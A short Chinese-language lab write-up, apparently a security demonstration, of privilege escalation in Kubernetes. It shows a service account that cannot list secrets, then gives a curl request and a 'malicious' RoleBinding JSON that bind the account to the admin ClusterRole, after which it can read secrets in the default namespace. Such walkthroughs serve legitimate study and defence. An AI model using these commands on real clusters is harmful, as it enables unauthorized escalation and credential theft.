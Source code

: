 ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665473052500-2ca49aaa-b29a-4d95-9cb4-69e54ebc901c.png)



在未进行利用前，hx-sa-bind-test账号没有权限列举default名称空间下的secrets凭证

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665473275453-420ce624-d4e0-4c0f-a96e-0a3106918b76.png)进行绑定

```plain
#添加当前用户到绑定高权限ClusterRole的ClusterRoleBinding中
curl -k -v -X POST -H "Authorization: Bearer eyJhbG..." -H "Content-Type: application/json" https://10.206.0.2:6443/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json

#malicious-RoleBinging.json
{"apiVersion":"rbac.authorization.k8s.io/v1","kind":"RoleBinding","metadata":{"name":"malicious-rolebinding"，json数据不要换行，会有格式问题
},"roleRef":{"apiGroup":"rbac.authorization.k8s.io","kind":"ClusterRole","name":"admin"},"subjects":[{"kind":"ServiceAccount","name":"hx-sa-bind-test","namespace":"default"}]}
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665473433799-cd231bcf-8876-4cac-b16f-8dae98cb7f65.png)

成功提权ServiceAccount权限，可列举default名称空间下的secrets凭证

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665473466451-5b7baca6-5e11-4702-8aa8-8148a19850b8.png)







